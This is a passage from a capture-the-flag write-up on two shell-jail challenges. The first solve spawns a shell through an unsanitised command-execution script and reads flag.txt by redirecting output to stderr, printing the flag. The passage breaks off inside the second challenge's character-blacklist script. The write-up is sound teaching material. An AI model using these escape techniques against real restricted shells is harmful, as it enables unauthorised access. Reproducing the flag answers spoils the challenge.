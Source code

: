 ### Eevee Jail - 2 (Jail)

> Someone said that if the jail is simple, it's easy to escape from it. Flag is at flag.txt
>
> Author: n3r
> 
> nc 157.180.92.15 9002 

jail-2.sh
```sh
#!/bin/sh

echo "========================
=    Eevee's Jail 2    =
========================"

while :
do
        read -p "[+] > " huh
        o=`$huh`
done
```

The user input is just getting executed, so you can spawn a shell to escape the jail.
However, we don't get any outputs from our commands, so we'll need to redirect STDOUT to STDERR.

```
marcus@Marcuss-MacBook-Air eevee2 % nc 157.180.92.15 9002 
========================
=    Eevee's Jail 2    =
========================
[+] > sh
sh
cat flag.txt 1>&2
cat flag.txt 1>&2
bbctf{wow, thats interesting}
```

### Eevee Jail - 3 (Jail)

> Your neighbour can be a bit tricky. Sometimes they help you, sometimes they betray you. Flag is at flag.txt
> 
> Author: n3r
> 
> nc 157.180.92.15 9003 

jail-3.sh
```sh
#!/bin/bash

echo "========================
=    Eevee's Jail 3    =
========================"

function blacklist {
        if [[ $1 == *[abcdfgijklquwxz'/''<''>''&''$']* ]]
        then
                return 0
        fi

        return 1
}

while :
do
```